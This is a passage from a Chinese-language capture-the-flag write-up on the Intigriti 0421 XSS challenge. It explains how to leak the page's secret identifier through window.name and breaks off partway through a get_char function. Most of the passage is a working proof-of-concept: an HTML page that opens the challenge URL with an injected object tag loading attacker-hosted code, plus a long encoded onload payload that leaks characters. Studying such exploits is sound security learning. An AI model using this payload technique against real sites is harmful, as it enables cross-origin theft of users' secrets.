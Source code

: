 当我们打开poc.html后，会弹出`https://challenge-0421.intigriti.io/?error=&lt;object data='https://attacker.com/poc.html`，在新打开的题目页面，会嵌入`https://xss-poc.***/poc.html`，然后执行代码，测出题目页`window.name`值，也就是我们需要的`top.name`，这样便能突破`window.name`跨域获取的限制:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d45056b857ca3596.png)

例如，结合前面的payload，成功获取`identifier`第一位对应的`window.name`值：

```
&lt;body&gt;
  &lt;h1&gt;xss poc&lt;/h1&gt;
   &lt;span&gt;Leaked identifier: &lt;code id=leakedIdentifier&gt;&lt;/code&gt;&lt;/span&gt;
   &lt;iframe sandbox="allow-scripts allow-top-navigation allow-same-origin" name="xss"&gt;&lt;/iframe&gt;
&lt;script&gt;
  window.open("https://challenge-0421.intigriti.io/?error=&lt;object data=https://xss-poc.****/poc.html onload=location.hash%2B%2F0%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F1%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F2%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F3%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F4%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F5%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F6%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F7%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F8%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F9%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fa%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fb%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fc%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fd%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fe%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Ff%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fg%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fh%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fi%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fj%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fk%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fl%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fm%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fn%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fo%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fp%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fq%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fr%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fs%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Ft%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fu%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fv%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fw%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fx%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fy%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2Fz%2F.source%3Cidentifier%26%26window.name%2B%2B%2Clocation.hash%2B%2F%7E%2F.source%3Cidentifier%26%26window.name%2B%2B&gt;&lt;/object&gt;#")
function getTopName() `{`
  let i = 0;
  for (; i &lt; 40; i++) `{`
    let res =  ( () =&gt; `{`
      let x;
      try `{`
        // shouldn't trigger new navigation
        x = xss.open('xss://xss', i);
        // this is for firefox
        if (x !== null) return 1;
        return;
      `}` catch (e) `{``}`
    `}`)();
    if (res) break;
  `}`
  return i;
`}`

keywords = "0123456789abcdefghijklmnopqrstuvwxyz~";

function get_char()`{`
```